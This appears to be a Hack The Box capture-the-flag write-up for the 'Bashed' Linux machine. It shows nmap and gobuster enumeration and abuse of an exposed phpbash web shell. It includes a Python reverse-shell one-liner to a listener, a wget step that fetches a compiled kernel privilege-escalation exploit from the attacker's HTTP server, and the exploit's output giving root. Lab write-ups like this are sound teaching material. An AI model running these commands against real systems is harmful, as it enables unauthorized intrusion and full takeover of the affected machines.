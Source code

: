 # htb-bashed
This is my [Hack the box](https://www.hackthebox.eu/)'s Bashed machine write-up.

## Machine
OS: Linux

IP: 10.10.10.68

Difficulty: Easy

## Initial enumeration
[Nmap](https://github.com/nmap/nmap) scan on the target:

`nmap -sV -sC -oN bashed.nmap $BASHED`

Flags:
 - `-sV`: Version detection
 - `-sC`: Script scan using the default set of scripts
 - `-oN`: Output in normal nmap format

```
root@kali:/home/kali# nmap -sC -sV -Pn -oN bashed.nmap $BASHED
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-26 20:01 EDT
Nmap scan report for 10.10.10.68 (10.10.10.68)
Host is up (0.23s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

There's a web server running on port 80. Get paths using gobuster:
```
root@kali:/home/kali# gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt --url http://10.10.10.68 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.68
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/26 20:26:58 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2020/08/26 20:30:57 Finished
===============================================================
```

The page on port 80 advertises a web shell: [phpbash](https://github.com/Arrexel/phpbash). It mentions the tool was built on this server which makes us think it could be accessible. `/dev/phpbash.php` is its location.

Get some situational awareness information using the shell:
```
www-data@bashed:/var/www/html/dev# uname -a
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

www-data@bashed:/var/www/html/dev# whoami
www-data

www-data@bashed:/var/www/html/dev# env
OLDPWD=/var/www/html/dev
APACHE_RUN_DIR=/var/run/apache2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APACHE_LOCK_DIR=/var/lock/apache2
LANG=C
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data
APACHE_LOG_DIR=/var/log/apache2
PWD=/var/www/html/dev


www-data@bashed:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

It is possible already to grab the user flag from `home/arrexel`: `cat /home/arrexel/user.txt`

Check that Python is installed by executing `python --version`. Let's trigger a reverse shell using it.

First, let's set up the listener on the attacker machine:
```bash
sudo nc -lvp 8888 
```

Then, with a little help from the pentestmonkey's [reverse shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), hit the listener from the phpbash web interface (replace IP and port by the listener's):
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

It pops a shell on the listener!

The kernel version can be obtained by executing `uname -a` is 4.4.0-62-generic.

Let's check on searchsploit if that version of Linux kernel is vulnerable:
```
$ searchsploit 4.4.0
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Comodo Backup 4.4.0.0 - Null Pointer Dereference Privilege Escalation              | windows/local/35905.c
eTouch SamePage 4.4.0.0.239 - Multiple Vulnerabilities                             | php/webapps/36089.txt
Foxit MobilePDF 4.4.0 iOS - Multiple Vulnerabilities                               | ios/webapps/35775.txt
Helpdesk Pilot Knowledge Base 4.4.0 - SQL Injection                                | php/webapps/10788.txt
Linux 4.4.0 < 4.4.0-53 - 'AF_PACKET chocobo_root' Local Privilege Escalation (Meta | linux/local/44696.rb
Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Condition Privil | linux_x86-64/local/40871.c
Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free (PoC)                               | linux/dos/41457.c
Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation                | linux/local/41458.c
Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter target_offset Out-of-Bounds P | linux_x86-64/local/40049.c
Linux Kernel 4.4.0-21 < 4.4.0-51 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Co | linux/local/47170.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation             | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) - 'netfilter target_offset' Local Privi | linux/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escala | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16.04 / Linux Mint 17/18 / Zorin) - Lo | linux/local/47169.c
Photo Manager Pro 4.4.0 iOS - Code Execution                                       | ios/webapps/36798.txt
Photo Manager Pro 4.4.0 iOS - Local File Inclusion                                 | ios/webapps/36796.txt
PHP 4.4.0 - 'mysql_connect function' Local Buffer Overflow                         | windows/local/1406.php
Vembu Storegrid Web Interface 4.4.0 - Multiple Vulnerabilities                     | php/webapps/46549.txt
----------------------------------------------------------------------------------- ---------------------------------
```

For this example this one will be used: `Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation`. Compile it on Kali (attacker) and expose it through an HTTP server for it to be available to the victim:
```
$ locate linux/local/44298.c
/usr/share/exploitdb/exploits/linux/local/44298.c
$ gcc -o privesc /usr/share/exploitdb/exploits/linux/local/44298.c
$ ls
privesc
$ python -m SimpleHTTPServer
```

And then, from the shell on the victim, get it and execute it:
```
$ sudo -l 
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
$ sudo -u scriptmanager /bin/bash
python -c 'import pty; pty.spawn("/bin/bash")'
scriptmanager@bashed:/var/www/html/uploads$ cd  
cd
scriptmanager@bashed:~$ pwd
pwd
/home/scriptmanager
scriptmanager@bashed:~$ wget 10.10.14.13:8000/privesc
wget 10.10.14.13:8000/privesc
--2020-09-04 21:52:11--  http://10.10.14.13:8000/privesc
Connecting to 10.10.14.13:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 17880 (17K) [application/octet-stream]
Saving to: 'privesc'

privesc             100%[===================>]  17.46K  28.8KB/s    in 0.6s    

2020-09-04 21:52:13 (28.8 KB/s) - 'privesc' saved [17880/17880]

scriptmanager@bashed:~$ chmod +x privesc
chmod +x privesc
scriptmanager@bashed:~$ ./privesc
./privesc
task_struct = ffff88003ab93800
uidptr = ffff880038719204
spawning root shell
root@bashed:~# whoami
whoami
root
root@bashed:~# 
```

Note the execution of the exploit was done as `scriptmanager` and not as `www-data` (leveraging the fact that `www-data` has permissions to execute anything as `scriptmanager`). This was simply because the same process didn't work when executing it as `www-data`.
